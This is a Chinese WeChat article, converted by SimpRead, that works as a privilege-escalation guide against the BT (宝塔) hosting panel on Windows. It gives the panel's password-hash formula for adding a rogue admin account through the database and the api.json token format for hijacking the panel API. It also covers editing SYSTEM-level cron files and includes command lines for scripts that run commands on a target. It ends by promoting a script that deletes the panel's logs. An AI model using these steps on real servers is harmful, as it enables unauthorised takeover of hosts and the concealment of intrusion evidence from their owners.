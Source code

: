 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Pnco7iZo7S4SxwjzSX4fAA)

本项目整理一些宝塔特性，可以在无漏洞的情况下利用这些特性来增加提权的机会。

Table of Contents
=================

*   宝塔面板 Windows 提权方法
    

*   写数据库提权
    
*   API 提权
    
*   计划任务提权
    

*   自动化测试
    

写数据库提权
------

宝塔面板在 2008 安装的时候默认 www 用户是可以对宝塔面板的数据库有完全控制权限的：

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic3MhdVtYwPwjJZJuibtbAyhSI1DS7G3s4XEgQP2TS3D3lD00O9ic3pPndaFuLHkUb9TlYVNCzaUs1ibg/640?wx_fmt=png)

对于这种情况可以直接往数据库写一个面板的账号直接获取到面板权限，而在 2016 安装默认是 User 权限可读不可写

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic3MhdVtYwPwjJZJuibtbAyhSzEkkHadjo77wvJpQQiaIdTUyPgibOGHRchBiaTD4iau4OMsgLJUItGRXHQ/640?wx_fmt=png)

这种情况可以从里面读取一些敏感信息，比如 mysql 的 root 密码，而一般这个配置的不会只有这个文件可读，可以使用其他方法。

盐： `[A-Za-z0-9]{12}`

密码： `md5(md5(md5(password) + '_bt.cn') + salt)`

可以直接使用`bt_panel_script.py`，脚本会自动新建一个账号。

API 提权
------

宝塔面板支持 API 操作的，token 在`C:\BtSoft\panel\config\api.json`，用这个方法提权还可以无视入口校验，比如有一个未授权访问的 redis 是 system 权限，就可以直接往这个文件覆盖 token 直接接管面板，或是利用 FileZilla(windows 面板默认 ftp 软件就是 FileZilla + 空密码) 新建一个 C 盘权限的账号，也可以去修改那个文件来提权。

API Token: `md5(string)`

api.json

```
{"open": true, "token": "API Token", "limit_addr": ["你的IP"]}
```

请求时加上 (`multipart/form-data`)：

```
request_token = md5(timestamp + token)

request_time = timestamp
```

可以直接使用`bt_panel_api.py`，脚本会自动使用计划任务运行命令，如果面板原本就有配置好 API 了，并且 IP 限制 127.0.0.1，那么就可以直接在服务器直接用脚本提权。

计划任务提权
------

基本上场景同 API 提权，可以去修改计划任务文件 (比如网站备份)，默认是在凌晨 1：30 执行，权限也是 system。

路径： `C:/BtSoft/cron/`

有些面板 API 会无法登陆，就只能利用计划任务来提权了，缺点是路径不固定，且执行时间也不固定。

自动化测试
=====

```
python3 .\bt_panel_script.py
```

使用此脚本可以全自动获取宝塔相关信息，python 可以直接用宝塔的，不用担心没环境。

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic3MhdVtYwPwjJZJuibtbAyhS1VqT3Tel3zuF67doAQNKBoMic8vWpdvtibzwyN7qhMVSwWUCzPbMqDIQ/640?wx_fmt=png)

```
python3 .\bt_panel_api.py -g
```

这个脚本可以生成 api 示例，把生成的 json 替换到指定文件后就能提权。

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic3MhdVtYwPwjJZJuibtbAyhSpva0AGlw7COcClJp9OibiboCd4ZCuleNzoqR4dxlKn0xHcYibQQI1uMkw/640?wx_fmt=png)

```
python3 .\bt_panel_api.py -u "http://192.168.101.5:8888/" -t "085bd64a698cf601ae472425656b2346" -c whoami
```

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic3MhdVtYwPwjJZJuibtbAyhSHZY7nln2m1GRP5RvnzpkURsRSc8ZpTFfkwF7f5lxn5RNsSsUGAgLPA/640?wx_fmt=png)

```
python3 .\bt_panel_log_delete.py
```

这个脚本可以自动清理面板日志。

https://github.com/Hzllaga/BT_Panel_Privilege_Escalatio

```
END



●干货|渗透学习资料大集合（书籍、工具、技术文档、视频教程）
如文章对你有帮助，请支持点下“赞”“在看”
```
